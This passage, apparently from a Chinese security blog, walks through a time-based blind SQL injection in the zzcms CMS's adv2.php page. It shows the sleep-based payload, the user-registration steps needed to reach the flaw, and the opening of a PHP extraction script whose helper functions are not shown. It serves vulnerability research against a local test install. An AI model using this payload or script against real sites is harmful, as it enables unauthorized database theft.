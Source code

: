 这样，我们可以假设这样查询：<br>`select * from zzcms_ad where id=9999 or if (4=length(user()),sleep(3),null)`<br>
我们看一下需要怎样才能先把流程走到这里

我们先看一下入口

[![](https://p2.ssl.qhimg.com/t013571d1583f62477e.png)](https://p2.ssl.qhimg.com/t013571d1583f62477e.png)

这里加一条打印信息。

[![](https://p1.ssl.qhimg.com/t01621a8ddcf4a73fbe.png)](https://p1.ssl.qhimg.com/t01621a8ddcf4a73fbe.png)

我们看一下 setAdv 方法入口那里，第一行申明的应该是有问题的<br>`global $f_array,$Username;`

PHP 变量是区分大小写的，他的方法名是不区分大小写的，比如 Exit() exIt() Echo echo 都是ok的。

这里 $Username 全篇没有用到，用到的 $username 用到却没有定义，注意，这是方法里面，不用 global申明，外面相同名称的变量拿不进来。

可以这样访问 `http://www.zzcms.local/user/adv2.php/action=modify`<br>
这里是user模块，我们需要注册一下用户，`我们先注册 usertest1 : usertest1`<br>
访问 返回 ‘个人用户不能抢占广告位’<br>`我们重新注册一下，选择 公司 用户，usertest2 : usertest2`<br>
访问上面地址，提示需要添加一个产品和一条广告，按照他提示跳转去新增一下<br>
（这里要注意，必须要保证 zzcms_ad 表里面有数据，管理后台添加的）

我们这样提交一下

[![](https://p0.ssl.qhimg.com/t019e7b993848f1cbe3.png)](https://p0.ssl.qhimg.com/t019e7b993848f1cbe3.png)

我们看一下返回时间

[![](https://p0.ssl.qhimg.com/t01485f35fe033187dd.png)](https://p0.ssl.qhimg.com/t01485f35fe033187dd.png)

是延迟了三秒。OK，没问题，，

我们之前登陆的相关信息，是保存在cookie里面的，可以看到

[![](https://p1.ssl.qhimg.com/t010b17cf42c3d2cc3c.png)](https://p1.ssl.qhimg.com/t010b17cf42c3d2cc3c.png)

vm不是有点问题么，我们也不用sqlmap了，我们简单写个脚本把他信息跑出来。

```
&lt;?php
/**
 * 基于时间的盲住
 * @author uncle-w
 * @date   2020-11-30 14:52
 */

// 本地host配置：127.0.0.1 www.zzcms.local
$url      = 'http://www.zzcms.local/user/adv2.php?action=modify';
$sleep    = 2;
$upNum    = 50;
$asciiNum = 127;

$dbname = getLocalDBName();
echo "Local Dbname : $dbname\n";

$username = getLocalUserName();
echo "Local User : $username\n";

$version = getVersionName();
echo "Local DbVersion : $version\n";


echo "Local Dbname : $dbname\n";
echo "Local User : $username\n";
echo "Local DbVersion : $version\n";
```